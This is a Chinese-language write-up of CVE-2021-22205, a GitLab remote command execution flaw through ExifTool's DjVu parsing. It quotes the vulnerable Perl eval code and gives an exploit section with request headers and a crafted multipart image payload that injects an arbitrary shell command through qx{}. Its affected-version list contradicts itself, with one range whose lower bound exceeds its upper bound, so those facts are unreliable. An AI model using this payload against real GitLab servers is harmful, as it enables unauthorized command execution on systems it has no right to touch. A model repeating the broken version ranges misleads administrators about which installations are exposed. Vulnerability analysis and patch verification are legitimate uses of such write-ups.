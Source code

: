 ### 一 漏洞描述
GitLab 是由GitLab Inc.开发的一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，可通过Web界面访问公开或私人项目。  
gitlab调用了exiftool（一个图像处理软件)，而exitftool未正确验证传递给文件解析器的图像文件，存在命令执行漏洞（CVE-2021-22205）  

图片拥有标签，如相机的品牌和型号，光圈或ISO等。  
ExifTool可编辑或删除标签这些元数据。而ExifTool在解析DjVu注释的ParseAnt函数中存在漏洞。  
当访问gitlab接口/uploads/user上传图像文件时，GitLab会将扩展名为jpg、jpeg、tiff文件传递给ExifTool，用于删除其中不合法的标签。  
而ExifTool在解析文件的时候会忽略文件的扩展名，尝试根据文件的内容来确定文件类型，其中支持的类型有DjVu。  
所以可上传jpg后缀、内容为DjVu格式的文件，触发漏洞。  

ExifTool解析图片为什么有命令执行? ExitTool包含eval的代码段(perl)，eval是为了支持C语言的转义序列
```
$tok = '';
for (;;) {
  # get string up to the next quotation mark
  # this doesn't work in perl 5.6.2! grrrr
  # last Tok unless $$dataPt =~ /(.*?)"/sg;
  # $tok .= $1;
  my $pos = pos($$dataPt);
  last Tok unless $$dataPt =~ /"/sg;
  $tok .= substr($$dataPt, $pos, pos($$dataPt)-1-$pos);
  # we're good unless quote was escaped by odd number of backslashes
  last unless $tok =~ /(\\+)$/ and length($1) & 0x01;
  $tok .= '"';    # quote is part of the string
}
# must protect unescaped "$" and "@" symbols, and "\" at end of string
$tok =~ s{\\(.)|([\$\@]|\\$)}{'\\'.($2 || $1)}sge;
# convert C escape sequences (allowed in quoted text)
$tok = eval qq{"$tok"};
```

影响范围  
11.9 <= Gitlab CE/EE < 13.8.8  
12.13.9 <= Gitlab CE/EE < 13.9.6  
13.13.10 <= Gitlab CE/EE < 13.10.3  

### 二 漏洞利用
```
token = '从 /users/sign_in 获取'

headers = {
"Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryIMv3mxRg59TkFSX5",
"X-CSRF-Token": f"{token}", "Accept-Encoding": "gzip, deflate",
"Cookie": f"{cookiea[1]}; {cookiea[0]}",
}

uri = "/uploads/user"
data = "\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5\r\nContent-Disposition: form-data; name=\"file\"; filename=\"test.jpg\"\r\nContent-Type: image/jpeg\r\n\r\nAT&TFORM\x00\x00\x03\xafDJVMDIRM\x00\x00\x00.\x81\x00\x02\x00\x00\x00F\x00\x00\x00\xac\xff\xff\xde\xbf\x99 !\xc8\x91N\xeb\x0c\x07\x1f\xd2\xda\x88\xe8k\xe6D\x0f,q\x02\xeeI\xd3n\x95\xbd\xa2\xc3\"?FORM\x00\x00\x00^DJVUINFO\x00\x00\x00\n\x00\x08\x00\x08\x18\x00d\x00\x16\x00INCL\x00\x00\x00\x0fshared_anno.iff\x00BG44\x00\x00\x00\x11\x00J\x01\x02\x00\x08\x00\x08\x8a\xe6\xe1\xb17\xd9*\x89\x00BG44\x00\x00\x00\x04\x01\x0f\xf9\x9fBG44\x00\x00\x00\x02\x02\nFORM\x00\x00\x03\x07DJVIANTa\x00\x00\x01P(metadata\n\t(Copyright \"\\\n\" . qx{" + command + "} . \\\n\" b \") )                                                                                                                                                                                                                                                                                                                                                                                                                                     \n\r\n------WebKitFormBoundaryIMv3mxRg59TkFSX5--\r\n\r\n"
    
```

### 三 漏洞修复
升级

> 参考链接
> exiftool介绍: https://news.sinabz.com/hulianwang/202002/6109.html  
> 分析: https://www.anquanke.com/post/id/261233#h3-6  
> 天融信阿尔法: http://blog.topsec.com.cn/cve-2021-22204-gitlab-rce%E4%B9%8Bexiftool%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E6%B7%B1%E5%85%A5%E5%88%86%E6%9E%90%EF%BC%88%E4%BA%8C%EF%BC%89/
> 发现者原文译文: https://xz.aliyun.com/t/9762
